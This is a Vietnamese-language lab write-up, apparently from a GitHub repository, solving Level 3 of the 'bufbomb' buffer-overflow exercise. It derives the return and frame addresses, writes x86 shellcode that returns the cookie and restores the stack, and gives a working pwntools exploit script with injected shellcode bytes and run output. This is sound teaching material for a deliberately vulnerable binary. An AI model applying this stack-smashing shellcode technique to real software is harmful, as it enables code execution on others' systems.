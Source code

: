 # Level 3
## Task
Buffer overflow để hàm getbuf trả về `cookie` tương ứng với `userid` được nhập.  

## Solution
Cách chèn shellcode ở level cũng sẽ tương tự như ở level trước, khác biệt duy nhất là chúng ta phải khôi phục trạng thái của chương trình thay vì để chương trình bị kết thúc sau khi thực thi shellcode.  

Đầu tiên, ta sẽ xác định `return address`.  
![image](https://user-images.githubusercontent.com/44528004/121771564-44868200-cb9a-11eb-9194-4148092d06ce.png)

Từ hình trên, ta thấy rằng câu lệnh sẽ được thực thi sau khi hàm `getbuf` trả về đó là:  

```
0x80139bd7 <test+19>    mov    dword ptr [ebp - 0xc], eax
```  

Vậy `return address = 0x80139bd7`.  

Bên cạnh đó, chúng ta cũng xác định được giá trị của thanh ghi `ebp` của hàm `test` là `0x55683d40`.  

Vậy lúc này, shellcode của chúng ta sẽ như sau:  
```asm
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```

Với việc trả về `cookie`, chúng ta sẽ gán giá trị của `cookie` vào thanh ghi `eax`. Từ đó, shellcode sẽ là:  
```asm
mov    $0x8013f158,%eax
mov    (%eax),%eax
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```  
> Với `0x8013f158` là địa chỉ của `cookie`.  

Tuy nhiên, với shellcode trên thì chương trình của chúng ta sẽ bị `segmentation fault`. Và khi debug thì ta thấy stack của chương trình trước khi gọi `getbuf` và trong khi thực thi shellcode có sự khác biệt và có lẽ đây là nguyên nhân khiến cho chương trình bị lỗi.  

Stack trước khi gọi `getbuf`:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19dd6 (__memset_sse2_rep+294) ◂— add    ebx, 0x9922a
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│ ebp 0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Stack trong khi thực thi shellcode:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19d00 (__memset_sse2_rep+80) ◂— inc    edx
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│     0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Vậy để có sự đồng nhất về stack, shellcode của chúng ta cần `pop` giá trị `0xf7f19d00` ra khỏi stack và `push` giá trị `0xf7f19dd6` vào stack.  

Từ đó, shellcode của chúng ta sẽ là:  
```asm
pop %eax
movl $0x8013F158,%eax
movl (%eax),%eax
movl $0x55683d40,%ebp
push $0xf7f19dd6
push $0x80139bd7
ret
```  
> Với câu lệnh đầu tiên sẽ `pop` giá trị `0xf7f19d00` vào thanh ghi `eax`, tuy nhiên sau đó `eax` sẽ được gán giá trị của `cookie` nên việc này sẽ không ảnh hưởng tới giá trị trả về.  

#### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

io = process(['./bufbomb', '-u', '09821978'])

shellcode = b'\x58\xb8\x58\xf1\x13\x80\x8b\x00\xbd\x40\x3d\x68\x55\x68\xd6\x9d\xf1\xf7\x68\xd7\x9b\x13\x80\xc3'
exploit_payload = shellcode + b'\x90' * (0x28 + 0x4 - len(shellcode))
exploit_payload += p32(0x55683cf8)

print(f"{exploit_payload = }")
with open("payload.txt", 'wb') as f:
    f.write(exploit_payload)

io.sendline(exploit_payload)
io.interactive()
```  

Chạy script.  
```
└─$ python3 level3.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 227
exploit_payload = b'X\xb8X\xf1\x13\x80\x8b\x00\xbd@=hUh\xd6\x9d\xf1\xf7h\xd7\x9b\x13\x80\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf8<hU'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 227)
Userid: 09821978
Cookie: 0x31f21393
Type string:Boom!: getbuf returned 0x31f21393
VALID
NICE JOB!
[*] Got EOF while reading in interactive
```  
> Chính xác!
